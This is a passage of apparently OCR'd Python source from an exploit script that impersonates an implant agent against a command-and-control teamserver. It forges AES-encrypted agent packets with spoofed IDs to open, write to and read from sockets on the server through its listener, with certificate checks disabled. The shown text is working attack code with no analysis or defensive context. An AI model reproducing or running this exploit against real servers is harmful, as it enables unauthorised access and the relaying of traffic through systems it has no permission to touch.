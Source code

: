 ```
        print("[***] Success!")
    else:
        print(f"[!!!] Failed to open socket on teamserver - {r.status_code} {r.text}")

def write_socket(socket_id, data, message):
    # COMMAND_SOCKET / 2540
    command = b"\x00\x00\x09\xec"
    request_id = b"\x00\x00\x00\x08"

    # SOCKET_COMMAND_READ / 11
    subcommand = b"\x00\x00\x00\x11"
    sub_request_id = b"\x00\x00\x00\xa1"

    # SOCKET_TYPE_CLIENT / 3
    socket_type = b"\x00\x00\x00\x03"
    success = b"\x00\x00\x00\x01"

    data_length = int_to_bytes(len(data))

    package = subcommand+socket_id+socket_type+success+data_length+data
    package_size = int_to_bytes(len(package) + 4)

    header_data = command + request_id + encrypt(AES_Key, AES_IV, package_size + package)

    size = 12 + len(header_data)
    size_bytes = size.to_bytes(4, 'big')
    agent_header = size_bytes + magic + agent_id
    post_data = agent_header + header_data

    print(message)
    r = requests.post(teamserver_listener_url, data=post_data, headers=headers, verify=False)
    if r.status_code == 200:
        print("[***] Success!")
    else:
        print(f"[!!!] Failed - {r.status_code} {r.text}")

def read_socket(socket_id):
    # COMMAND_GET_JOB / 1
    command = b"\x00\x00\x00\x01"
    request_id = b"\x00\x00\x00\x09"

    header_data = command + request_id

    size = 12 + len(header_data)
    size_bytes = size.to_bytes(4, 'big')
    agent_header = size_bytes + magic + agent_id
    data = agent_header + header_data


    print("[***] Trying to poll teamserver for socket output ...")
    r = requests.post(teamserver_listener_url, data=data, headers=headers, verify=False)
    if r.status_code == 200:
        print("[***] Read socket output successfully!")
    else:
        print(f"[!!!] Failed to read socket output - {r.status_code} {r.text}")
        return ""

    command_id = int.from_bytes(r.content[0:4], "little")
    request_id = int.from_bytes(r.content[4:8], "little")
    package_size = int.from_bytes(r.content[8:12], "little")
    enc_package = r.content[12:]

    return decrypt(AES_Key, AES_IV, enc_package)[12:]
```